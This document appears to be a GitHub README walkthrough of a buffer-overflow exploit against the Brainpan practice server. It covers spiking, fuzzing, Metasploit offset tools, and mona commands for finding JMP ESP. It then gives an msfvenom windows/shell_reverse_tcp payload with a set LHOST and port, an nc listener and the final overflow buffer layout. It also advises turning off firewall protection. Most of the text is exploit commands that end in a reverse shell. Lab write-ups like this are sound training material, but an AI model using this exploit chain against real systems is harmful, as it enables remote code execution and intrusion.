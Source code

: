 <h1>Brainpan BOF server </h1>
<br><h2>steps</h2>
<br><h3>1. spiking</n>
<br>2.fuzzing</n>
<br>3. finding the offset
<br>4. overwriting the EIP
<br>5. finding bad characters
<br>6. finding the right modules
<br>7. Generating Shellcode</h3>

    <h2>1. spiking </h2> 
First make sure youe firewall real protection turn off
Now run brainpan server as admin
use your spiking.spk to find Vulnerability 
script is --> 
<b>s_readline();
"s_string("TRUN ");"
s_string_variable("0");
</b>

*Now use generic_send_tcp (target)IP (target)PORT spiking.spk 0 0
(if server scrash ? boom you  succeed :D )`


``     <h2>2 .fuzzing</h2>

*Now time to find Number of size buffer which crash server 
(user chmod +x * )
* ./brainpan.py 192.168.43.161 9999 ( here your brainpan server will crash and you will get avarage amount o buffer size
*Now create pattern , why ? to find exact number of Buffer size
*First create unic pattern using metasploit tool
* /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500( here your last (brainpan.py) crash avarage number , which 
must greater.  
* Now usr offsetcalc.py to find lenght later we will find offset which is our exact buffer size in byte :D 
* ./offsetcalc.py IP PORT
*get EIP value ? now use it at offset
		
		<h2>3. finding the offset</h2>
*find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 35724134
[*] Exact match at offset 524
* boom ?? we get Exact Number of size which is 524

		<h2>4. overwriting the EIP</h2>
*Now Verify EIP Overwrite or Not By B, add B*4 and check debuger print 42424242 at EIP or not
./brainpanEIPWt.py IP PORT
* YES --> ok great

		<h2>5. finding bad characters</h2>
* Now find Bad chars which is use while create shellcode , actual we dont found bad chars in this servers, but dont skip this step go head
and just do practice ;) 
* ./brainpanBadChard.py IP PORT
* remember how to find Bad chars ? opps no ? dont worry just do hard else catch me on insta i'll explain you :)
bad chars 

	<h2>6. finding the right modules</h2>
* Downloaded Mona modules ? . no ? download it  --> https://github.com/corelan/mona and add it at exact place

* use command 
!mona mudules
!mona find -s "\xff\xe4" -m brainpan.dll
*now find base value note it down
and make sure ur JMP ESP use Using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

now do make sure you selected your JMP ESP make sure your base value is right 
click arrow type jump number
*fire offsetverify.py
./offsetverify.py IP PORT
make sure its work you controling EIP or not if yes then go head and do shell using shellcode

*control EIP done

			<h2>7. Generating Shellcode</h2>
*now generarte shellcode 

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.216 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"(make sure your bad chars)


"A" * 524 + (JMP ESP value) "\xf3\x12\x17\x31"  (reverse way) +  "\x90" * 8 ( this is nops value minimum which make space between shell and JMP ESP+ shell 
*make sure your nc is ready
 nc -lvnp 443

*and now fire your final code 
./finalexploit.py IP PORT

*boom you will get shell 
*if not then sorry please recheck all step clearly 
*thanks i hope you love this repo :D 

<b>
<br>visit our official Website : https://hacksudo.com</br>
<br>hacksudo Linkedin https://www.linkedin.com/in/hack-sudo-230a871b3/</br>
<br> visit linkedin https://www.linkedin.com/in/realvilu </br>
<br><h2>Author Vishal waghmare</h2></br>
<h3>Happy Hacking :)</h3>
</b>
